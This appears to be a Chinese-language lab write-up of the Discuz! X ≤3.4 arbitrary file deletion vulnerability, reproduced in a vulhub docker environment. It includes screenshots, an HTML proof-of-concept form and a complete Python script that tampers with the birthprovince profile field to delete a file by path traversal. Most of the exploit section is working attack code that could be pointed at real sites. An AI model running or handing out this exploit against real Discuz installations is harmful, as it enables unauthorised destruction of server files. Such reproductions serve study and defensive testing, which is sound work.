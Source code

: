 ```yaml
---
title: Discuz任意文件删除
date: 2022-04-01 10:57:53
updated: 2022-04-02 19:55:06
categories: 漏洞复现
tags:
urlname:
keywords: Discuz,任意文件删除
---
```


## Discuz任意文件删除

### 实验环境

官方于2017年9月28日对源码进行了修复，这里利用docker搭建环境：

```shell
cd vulhub/discuz/x3.4-arbitrary-file-deletion/
docker-compose up -d
```

服务器：CentOS7

攻击机：物理机（10.10.10.1）

环境搭建好后开始安装DZ

![](https://s2.loli.net/2022/03/31/vjrLZEaAqIUchby.png)

### 漏洞复现

1. 在服务器DZ根目录下建立hummer.txt文件，利用漏洞删除该文件

   检查hummer.txt文件存在

   ![](https://s2.loli.net/2022/03/31/JjuEU3rVbYtRHyX.png)

2. 注册Discuz用户，尝试修改个人信息

   http://10.10.10.142/Discuz/home.php?mod=spacecp

   ![](https://s2.loli.net/2022/03/31/CKBrn8ea4AoDwRT.png)

   填写个人信息后对该请求抓包：

   ![](https://s2.loli.net/2022/03/31/oKntBGSN4vjsf8q.png)

   从图中可以得到hummer用户的formhash=4c8ba00c

   将birthprovince的值改为要删除的文件名（hummer.txt）

   ![](https://s2.loli.net/2022/03/31/1gIl3W6bLD9OyhV.png)

   然后放包：

   可以看到已经成功将birthprovince的值改为了要删除的文件名

   ![](https://s2.loli.net/2022/03/31/S7OJdmZexGH895T.png)

   

3. 构造POC：

   ```html
   <form action="http://10.10.10.142/Discuz/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovi
   nce]=aaaaaa" method="POST" enctype="multipart/form-data">
   <input type="file" name="birthprovince" id="file" />
   <input type="text" name="formhash" value="89b14d12"/></p>
   <input type="text" name="profilesubmit" value="1"/></p>
   <input type="submit" value="Submit" />
   </from>
   ```
   
      ![](https://s2.loli.net/2022/04/01/e2NVs3HFB91nZ6i.png)
   
      点击提交后，会有如下响应：
   
      ![](https://s2.loli.net/2022/04/01/CEGNIKqHv3tMiU7.png)
   
      此时文件已经成功删除了
   
   4. 自动化脚本：
   
   ```python
   # -*- coding: utf-8 -*- 
   # @Time : 2022/4/1 16:22 
   # @Author : hummer
   # @File : Discuz.py
   
   import requests
   import re
   
   '''
   Discuz!X <=3.4 任意文件删除漏洞
   '''
   
   
   def get_cookie():
       cookies={}
       for line in raw_cookies .split(';'):
           key,value = line.split('=',1)
           cookies[key]=value
       return cookies
   
   def get_formhash(url):
       cookies = get_cookie()
       testurl = url + "/home.php?mod=spacecp"
       html = requests.get(testurl,cookies=cookies)
       com = re.compile('<input type="hidden" name="formhash" value="(.*?)" />')
       result = com.findall(html.text)
       return result[0]
   
   def del_step1(url,filename):
       headers={
           'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0',
       }
       geturl = url + "/home.php?mod=spacecp&ac=profile&op=base"
       formhash=get_formhash(url)
       print("formhash: " + formhash)
       payload = {'birthprovince':filename,'profilesubmit':1,'formhash':formhash}
       cookies = get_cookie()
       html = requests.post(geturl,headers=headers,data=payload,cookies=cookies)
       if html.text.find('parent.show_success')>0:
           print('Step1 success!')
   
   def del_step2(url):
       geturl = url + '/home.php?mod=spacecp&ac=profile&op=base&deletefile[birthprovince]=aaaaaa'
       headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0'}
       formhash = get_formhash(url)
       files = {'formhash':(None,formhash),'birthprovince':('1.jpg',open('1.jpg','rb'),'image/jepg'),'profilesubmit':(None,1)}
       cookies = get_cookie()
       r = requests.post(geturl,files=files,headers=headers,cookies=cookies)
       if r.text.find('parent.show_success')>0:
           print("Step2 success!")
   
   if __name__ == '__main__':
       raw_cookies = "QEWn_2132_saltkey=jB44A7n7; QEWn_2132_lastvisit=1648895823; QEWn_2132_sid=KrpF5f; QEWn_2132_lastact=1648899609%09home.php%09misc; QEWn_2132_sendmail=1; QEWn_2132_seccode=1.21187a98997a88f189; QEWn_2132_ulastactivity=9ebcAx%2FzsiL2Ju3gB4nnVG5GBBHyFTeCzO6%2FbmGu9WxSCw8brZTS; QEWn_2132_auth=afde08MuW%2BAKdFLrgYSqhflGjsYLnWVSBtpPs6HBpmnwkPkewQvRZIgT1G6mgVSIU7FxCC9L84iX7RSX2PIb; QEWn_2132_nofavfid=1; QEWn_2132_onlineusernum=1; QEWn_2132_noticeTitle=1"
   
       url = 'http://10.10.10.145'
       del_step1(url,'../../../hummer.txt')
       del_step2(url)
   ```
   
   

   运行结果如下：

![](https://s2.loli.net/2022/04/02/r4EjSPtsdRmbcYC.png)

   

漏洞复现完成